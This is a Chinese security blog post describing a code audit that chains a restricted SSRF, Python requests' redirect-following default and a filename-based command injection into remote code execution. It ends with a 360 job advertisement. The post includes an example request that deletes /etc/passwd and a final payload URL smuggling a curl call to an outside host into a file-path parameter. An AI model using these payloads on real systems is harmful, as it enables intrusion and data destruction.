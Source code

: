 > 原文链接: https://www.anquanke.com//post/id/248821 


# 记一次从鸡肋SSRF到RCE的代码审计过程


                                阅读量   
                                **54070**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t014fb799eb034b6d24.png)](https://p5.ssl.qhimg.com/t014fb799eb034b6d24.png)

> 作者：TheKingOfDuck[@0KEE](https://github.com/0KEE) TEAM

Python标准库中用来处理HTTP相关的模块是urllib/urllib2，不过其中的API十分零碎，比如urllib库有urlencode,但urllib2没有,经常需要混在一起使用,换个运行环境可能又无法正常运行,除了urllib和urllib2之外,会经常看到的还有一个urllib3,该模块是服务于升级的http 1.1标准，且拥有高效http连接池管理及http代理服务的功能库,但其并非python内置,需要自行安装,使用起来仍很复杂,比如urllib3对于POST和PUT请求(request),需要手动对传入数据进行编码，然后再加在URL之后,非常麻烦。requests是用基于urllib3封装的,继承了urllib2的所有特性,遵循Apache2 Licensed开源协议的HTTP库，支持HTTP连接保持和连接池，支持使用cookie保持会话，支持文件上传，支持自动响应内容的编码，支持国际化的URL和POST数据自动编码。如他的口号HTTP for Humans所说,这才是给人用的HTTP库,实际使用过程中更方便,能够大大的提高使用效率,缩短写代码的时间。

[![](https://p5.ssl.qhimg.com/t0167541f869acda0e5.jpg)](https://p5.ssl.qhimg.com/t0167541f869acda0e5.jpg)

实战中遇到过这样一个案例,一个输入密码正确后会302跳转到后台页面的登录口存在盲注,但登录数据有加密,无法试用sqlmap完成自动注入的过程,于是想编写python脚本自动化完成这个过程,requests是首选,实际编写过程中会发现默认属性下其无法获取到30X状态码的详情,分析其代码后发现requests的所有请求方法(GET/POST/HEAD/PUT/DELETE)均会默认跟随30X跳转,继承了urlib3默认跟随30X跳转的属性,并将30X连续跳转的次数上限从3次修改为30次,如果返回状态码是304/305/306/309会保持原来的请求方法,但不会跳转,返回状态码是307/308会保持原请求方法,并且跳转,其他30x状态码则会将请求方法转化为GET。如需禁止跳转需将allow_redirects属性的值设置为False。

下面将分享一个因为这个特性导致的从ssrf到rce的漏洞组合拳。



## 0x01 起

某系统的升级功能可配置自定义的站点, 点击升级按钮后会触发向特定路由发送文件, 也就是一个鸡肋的`POST`类型的**路由和参数均不可控**的`SSRF`。

[![](https://p5.ssl.qhimg.com/t01281d1a68e3e64e17.jpg)](https://p5.ssl.qhimg.com/t01281d1a68e3e64e17.jpg)

如下图,`**_update`是从用户自定义的配置中取的, 与固定的`route`变量拼接后作为发送文件的`url`

[![](https://p4.ssl.qhimg.com/t01ba512f5041b07802.png)](https://p4.ssl.qhimg.com/t01ba512f5041b07802.png)

利用上文提到的requests默认跟随状态码`30X`跳转的特性, 可将这个鸡肋的`SSRF`变成一个`GET`类型的**路由和参数均可控**的`SSRF`

[![](https://p3.ssl.qhimg.com/t010952b8c7c3863f28.jpg)](https://p3.ssl.qhimg.com/t010952b8c7c3863f28.jpg)

[![](https://p2.ssl.qhimg.com/t01e997173a48e5787f.jpg)](https://p2.ssl.qhimg.com/t01e997173a48e5787f.jpg)



## 0x02 承

该软件的分层大致如下图, 鉴权在应用层, 涉及数据涉及敏感操作的均通过api调用另一个端口的上的服务, 该过程无鉴权。思路比较清晰, 可审计服务层的代码漏洞结合已有的`SSRF`进一步扩大危害。

[![](https://p2.ssl.qhimg.com/t01f9250cfd995611ad.jpg)](https://p2.ssl.qhimg.com/t01f9250cfd995611ad.jpg)

受这个`SSRF`本身的限制, 寻找服务层漏洞时优先看请求方式为`GET`的路由, 筛选后找到一个符合条件的漏洞点如下图所示, 传入的`doc_file_path`参数可控, 如果文件名中能带入自己的恶意`Payload`且文件能够存在的情况下, 拼接到`cmd`变量中后有机会`RCE`。

[![](https://p2.ssl.qhimg.com/t01eefbb58857224d4c.png)](https://p2.ssl.qhimg.com/t01eefbb58857224d4c.png)

走到命令拼接的前置条件是文件存在, 故先查看上传部分代码, 如下图所示, [mkstemp方法](https://docs.python.org/zh-cn/3/library/tempfile.html#tempfile.mkstemp)的作用是以最安全的方式创建一个临时文件, 该文件的文件名随机, 创建后不会自动删除, 需用户自行将其删除, `suffixs`是指定的后缀, 也就是说文件虽然可以落地, 但文件名不可控, 无法拼接自己的`Payload`。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e6e4573c91fcf083.png)

此时只能作为一个任意文件删除的漏洞来使用, 配置升级链接`301`跳转到`http://127.0.0.1:8848/api/doc?doc_file_path=/etc/passwd`, 其中`doc_file_path`参数为已知的存在的文件, 点击系统升级按钮即可触发删除操作。

[![](https://p0.ssl.qhimg.com/t01e8160b1d6d4a5d7a.jpg)](https://p0.ssl.qhimg.com/t01e8160b1d6d4a5d7a.jpg)



## 0x03 转

继续分析代码，阅读大量代码后找到一处上传文件的功能点如下图所示, 其中`file_pre`为源文件名, 拼接下划线,时间戳以及`.txt`后保存并返回了完整的文件路径，正好符合上面的要求。

[![](https://p2.ssl.qhimg.com/t0127583f02b16255b7.png)](https://p2.ssl.qhimg.com/t0127583f02b16255b7.png)

源文件名可控, 路径已知,`SSRF`升级`RCE`变得索然无味, 使用分号切割命令语句,带参数的命令可以使用`$`{`IFS`}``绕一下空格问题, 涉及到的`$`{`;`均为unix系统文件名允许使用范围的字符。

[![](https://p1.ssl.qhimg.com/t01609aab737084d410.jpg)](https://p1.ssl.qhimg.com/t01609aab737084d410.jpg)

[![](https://p3.ssl.qhimg.com/t0143d6cc214ce51fc2.jpg)](https://p3.ssl.qhimg.com/t0143d6cc214ce51fc2.jpg)



## 0x04 合

参数及路由均不可控`POST`类型的`SSRF` -&gt; `requests` `30X`跳转特性 -&gt; 参数和路由均可控的`GET`类型`SSRF` -&gt; 文件名部分可控的文件上传 -&gt; 多点结合攻击本地服务

最终Payload如下:

```
http://127.0.0.1:8848/api/doc?doc_file_path=
/opt/work/files/target_file/admin/;curl$`{`IFS`}`rce.me;_1623123227304.txt
```

[![](https://p1.ssl.qhimg.com/t019ecc8a33d1b85373.jpg)](https://p1.ssl.qhimg.com/t019ecc8a33d1b85373.jpg)

配置完成手动点击一下升级功能即可触发命令执行。

[![](https://p0.ssl.qhimg.com/t01a739ac7a50340ab2.jpg)](https://p0.ssl.qhimg.com/t01a739ac7a50340ab2.jpg)



## 0x05 招

社招-高级安全工程师（安全评估与渗透测试方向）

岗位职责

1、承担360政企安全集团ToB安全产品应用层渗透测试、安全评估、代码审计；

2、研究跟进最新安全动态、安全漏洞，对互联网重大安全漏洞关联到产品进行响应分析；

3、参与内部安全平台的建设；

任职要求

0、1-3年工作经验、接受优秀校招、实习生；

1、熟练掌握Web渗透、代码级漏洞挖掘等手法与漏洞原理、挖掘方法；

2、熟悉java、Go等主流服务端开发语言的代码审计；

3、熟练使用sqlmap、burpsuite、metasploit等常见安全测试工具，了解原理，熟悉代码并且对其进行过二次开发者优先；

4、熟练使用至少一门开发语言，包括但不限于C/C++/JAVA/Go;

5、具有良好的沟通协调能力、较强的团队合作精神、优秀的执行能力；

6、有很强的分析问题和解决问题的能力。

加分项

1、挖掘过国内主流安全厂商ToB 安全产品的高质量0day或者1day漏洞；

2、有互联网企业SDL落地经验；

3、有客户端漏洞挖掘经验更佳；

4、熟悉并掌握Spring框架并针对Spring类框架的项目进行过代码审计；

5、在国家级、直辖市级、省级大型攻防演练项目中负责目标系统代码审计工作并有一定产出。

投递邮箱：g-[0kee@360.cn](mailto:0kee@360.cn)
